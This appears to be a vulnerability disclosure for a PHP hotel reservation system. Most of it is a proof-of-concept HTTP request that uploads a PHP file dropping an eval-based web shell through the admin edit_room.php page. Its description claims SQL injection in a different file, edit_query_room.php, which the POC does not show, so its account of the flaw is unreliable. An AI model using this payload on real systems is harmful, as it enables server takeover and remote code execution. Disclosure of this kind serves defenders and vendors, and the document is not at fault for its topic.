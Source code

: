 # Simple Online Hotel Reservation System

## supplier 
https://code-projects.org/simple-online-hotel-reservation-system-in-php-with-source-code
## Vulnerability file
edit_query_room.php

## describe

**Code analysis**   

In the edit_query_room.php file of Simple Online Hotel Reservation System, theuser room_type parameter is obtained, and the SQL statement is concatenated to the SQL statement without filtering the execution, resulting in SQL injection vulnerabilities and server permissions

![image-2025](https://github.com/asd1238525/cve/blob/main/22c9b006-5d02-49e4-ba1e-7bac335953cd.png)


## POC

```
POST /simplehotel/HOR/admin/edit_room.php?room_id=6 HTTP/1.1
Host: 127.0.0.1:8083
Content-Length: 564
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8083
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3rmXUebO8u3rgGAS
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8083/simplehotel/HOR/admin/edit_room.php?room_id=6
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=s5o8pk3psueru08ci1jjc6b3if
Connection: close

------WebKitFormBoundary3rmXUebO8u3rgGAS
Content-Disposition: form-data; name="room_type"

Standard
------WebKitFormBoundary3rmXUebO8u3rgGAS
Content-Disposition: form-data; name="price"

1
------WebKitFormBoundary3rmXUebO8u3rgGAS
Content-Disposition: form-data; name="photo"; filename="12.php"
Content-Type: application/octet-stream

<?php fputs(fopen("shell.php", "w"), '<?php @eval($_POST["shell"]); ?>'); ?>
------WebKitFormBoundary3rmXUebO8u3rgGAS
Content-Disposition: form-data; name="edit_room"


------WebKitFormBoundary3rmXUebO8u3rgGAS--

```

**Result**
![image-2025](https://github.com/asd1238525/cve/blob/main/ff2c4ccf-bee3-4956-b50c-88aac96fb538.png)
Get payload:
![image-2025](https://github.com/asd1238525/cve/blob/main/82a80015-fbd5-4610-ad92-5b0354aaeed0.png)